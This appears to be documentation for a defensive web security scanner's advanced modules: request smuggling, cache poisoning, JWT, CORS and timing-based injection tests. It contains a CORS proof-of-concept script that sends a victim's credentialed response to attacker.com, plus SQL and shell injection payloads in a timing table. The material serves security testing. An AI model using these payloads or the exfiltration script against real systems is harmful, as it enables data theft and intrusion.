

# Advanced Attack Testing Guide

[← Back to Index](../README.md) | [← Scanning](SCANNING.md)

---

## Overview

Advanced attack modules detect vulnerabilities that require specialized testing techniques beyond standard DAST scanning.



---

## HTTP Request Smuggling

Detects HTTP desync vulnerabilities between front-end and back-end servers.

### Attack Types

| Variant | Description | Severity |
|---------|-------------|----------|
| CL.TE | Front uses Content-Length, back uses Transfer-Encoding | Critical |
| TE.CL | Front uses Transfer-Encoding, back uses Content-Length | Critical |
| TE.TE | Different Transfer-Encoding parsing | Critical |

### Usage

```bash
python cli.py advanced traffic.har --smuggling
```

### Detection Method

1. Sends crafted requests with conflicting headers
2. Monitors for desync indicators:
   - Smuggled request prefix (`GPOST`)
   - Multiple HTTP responses
   - Connection timeouts

### Example Finding

```json
{
  "variant": "CL.TE",
  "url": "https://target.com/",
  "vulnerable": true,
  "confidence": 0.7,
  "evidence": {
    "indicators": ["Smuggled request prefix"],
    "response_preview": "HTTP/1.1 200 OK..."
  },
  "cwe": "CWE-444",
  "cvss": 9.8
}
```

---

## Web Cache Poisoning

Detects unkeyed header injection that can poison cached responses.

### Tested Headers

| Header | Attack Type |
|--------|-------------|
| X-Forwarded-Host | Host injection |
| X-Original-URL | Path override |
| X-Forwarded-Proto | Protocol downgrade |
| X-Forwarded-For | IP spoofing |

### Usage

```bash
python cli.py advanced traffic.har --cache-poison
```

### Detection Method

1. Identifies cacheable endpoints (via cache headers)
2. Injects canary values in unkeyed headers
3. Verifies reflection in cached responses

### Example Finding

```json
{
  "poison_header": "X-Forwarded-Host",
  "url": "https://target.com/",
  "vulnerable": true,
  "confidence": 0.9,
  "evidence": {
    "reflected_in_body": true,
    "cache_status": "HIT"
  },
  "cwe": "CWE-349"
}
```

---

## JWT Attacks

Tests for JWT implementation vulnerabilities.

### Attack Types

| Attack | Description | Severity |
|--------|-------------|----------|
| None Algorithm | Accept unsigned tokens | Critical |
| Weak Secret | Brute-force HMAC secrets | Critical |
| Algorithm Confusion | RS256 → HS256 | Critical |
| KID Injection | SQL/Path traversal in kid | Critical |

### Usage

```bash
python cli.py advanced traffic.har --jwt
```

### Detection Method

1. Extracts JWTs from headers, cookies, body
2. Tests 'none' algorithm variants
3. Brute-forces common weak secrets
4. Checks for algorithm confusion opportunities

### Example Finding

```json
{
  "attack_type": "weak_secret",
  "url": "https://api.target.com/user",
  "vulnerable": true,
  "confidence": 1.0,
  "evidence": {
    "secret": "secret123",
    "algorithm": "HS256",
    "can_forge_tokens": true
  },
  "cwe": "CWE-321"
}
```

### Weak Secrets Wordlist

Default: `secret`, `password`, `admin`, `jwt_secret`, `your-256-bit-secret`, etc.

Custom wordlist via config:

```yaml
jwt_wordlist:
  - "custom_secret_1"
  - "company_jwt_key"
```

---

## CORS Misconfiguration

Tests for Cross-Origin Resource Sharing vulnerabilities.

### Vulnerability Types

| Type | Description | Severity |
|------|-------------|----------|
| Origin Reflection + Credentials | Arbitrary origin with cookies | Critical |
| Origin Reflection | Any origin reflected | High |
| Null Origin | Accepts 'null' origin | High |
| Wildcard | ACAO: * | Medium |

### Usage

```bash
python cli.py advanced traffic.har --cors
```

### Detection Method

1. Tests various malicious origins
2. Checks for reflection in ACAO header
3. Verifies credentials flag
4. Tests bypass techniques (subdomain, prefix)

### Example Finding

```json
{
  "vulnerability_type": "origin_reflection_with_credentials",
  "url": "https://api.target.com/user",
  "vulnerable": true,
  "confidence": 1.0,
  "evidence": {
    "test_origin": "https://evil.com",
    "reflected_origin": "https://evil.com",
    "credentials_allowed": true
  },
  "cwe": "CWE-346",
  "cvss": 9.8
}
```

### PoC Generation

The CORS tester can generate exploit PoCs:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open('GET', 'https://api.target.com/user', true);
xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
        fetch('https://attacker.com/log?data=' + encodeURIComponent(xhr.responseText));
    }
};
xhr.send();
</script>
```

---

## Timing Analysis

Detects blind injection via response time statistical analysis.

### Payload Categories

| Category | Example Payload | Target |
|----------|-----------------|--------|
| SQL (MySQL) | `' AND SLEEP(3)--` | MySQL |
| SQL (PostgreSQL) | `'; SELECT pg_sleep(3);--` | PostgreSQL |
| SQL (MSSQL) | `'; WAITFOR DELAY '0:0:3';--` | MSSQL |
| Command (Unix) | `; sleep 3` | Linux/macOS |
| Command (Windows) | `& ping -n 4 127.0.0.1` | Windows |

### Usage

```bash
python cli.py advanced traffic.har --timing
```

**Warning:** Timing analysis is slow (measures response times statistically).

### Detection Method

1. Measures baseline response times (5 samples)
2. Injects time-delay payloads
3. Compares payload response times vs baseline
4. Uses statistical thresholds (mean + 3*stddev)

### Example Finding

```json
{
  "parameter": "id",
  "payload": "' AND SLEEP(3)--",
  "vulnerable": true,
  "confidence": 0.85,
  "evidence": {
    "category": "sql_mysql",
    "baseline_mean": 0.15,
    "payload_mean": 3.21,
    "time_difference": 3.06
  },
  "cwe": "CWE-208"
}
```

---

## Running All Tests

```bash
# All tests except timing
python cli.py advanced traffic.har --all

# All tests including timing
python cli.py advanced traffic.har --all --timing

# With webhook notifications
python cli.py advanced traffic.har --all --webhook slack
```

---

## Integration with Main Scan

Combine with standard ZAP scanning:

```bash
# Standard + advanced
python cli.py scan traffic.har --owasp --fail-fast
python cli.py advanced traffic.har --all
```

Or in CI/CD:

```yaml
- name: Security Scan
  run: |
    python cli.py scan traffic.har --fail-fast --max-high 0
    python cli.py advanced traffic.har --jwt --cors
```

---

## Next Steps

→ [CI/CD Integration](../examples/CICD.md)
